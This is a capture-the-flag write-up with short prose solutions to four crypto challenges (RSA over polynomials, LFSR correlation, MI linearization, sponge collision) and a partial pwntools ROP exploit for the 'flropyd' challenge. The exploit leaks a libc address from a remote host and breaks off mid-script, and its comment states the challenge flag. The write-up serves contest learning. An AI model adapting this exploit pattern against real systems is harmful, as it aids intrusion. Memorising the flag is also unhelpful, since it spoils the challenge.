 ```python=
```

## Crypto
### babyRSA
Factor the modulus with sagemath's `factor()`, we can get two polynomial `p[x], q[x]`.
Calculate the order of group `Poly/p[x]` as `op` and `Poly/q[x]` as `oq` with sagemath's `QuotientRing.order()`.
The rest is as same as typical RSA, decrypt the flag with `msg = pow(enc, invmod(e, (op - 1) * (oq - 1)), N)`.

### zer0lfsr
There are 75% prob that the output bit equals to the output bit of underlying lfsr.
We can generate a subset of bits that satisfied to the lfsr's characteristic polynomial.
Then we use belief propagation to find top k bits that most likely to be correct. (We found k=150 works great.)
After getting those bits, reconstruct the initial state with some basic linear algebra.


### zer0mi
We applied the linearization method discovered by Patarin et al. to attack MI cryptosystem.
The result mapping from target ciphertext to plaintext has a kernel of shape 1x63.
So we generate all 256 possibilities and filter them with the constraint that all chars are ascii.

### babysponge
The state of sponge function has two parts.
In the absorb stage, for each block of our input, we xor it to the first part, change the state with the nonlinear function f, and repeat.
That means we cannot control the value of second part directly.

If we can find two different input blocks that generate same second part,
then we can patch their first parts using their next blocks to construct a identical state.
A identical state means it will output identical hash, which means we find a collision.

The size of second part in this challenge is 48 bits.
The complexity of finding a collision on second part with birthday attack is O(2^24), which is feasible.

## Misc
### flropyd
Just rop :D
```python
#!/usr/bin/env python
from pwn import *

# flag{for_k_in_N_for_i_in_N_for_j_in_N}

e , libc = ELF('./flropyd') , ELF('./libc-2.27.so')
context.arch = 'amd64'
host , port = '111.186.63.203' , 6666
y = remote( host , port )
#y = process( './flropyd' )
#pause()


y.recvuntil( '0x' )
libc.address = int( y.recvline()[:-1] , 16 ) - libc.sym.malloc
l = libc.address
success( 'libc -> %s' % hex( l ) )

ret = l + 0x8aa
pop_rax = l + 0x439c8
```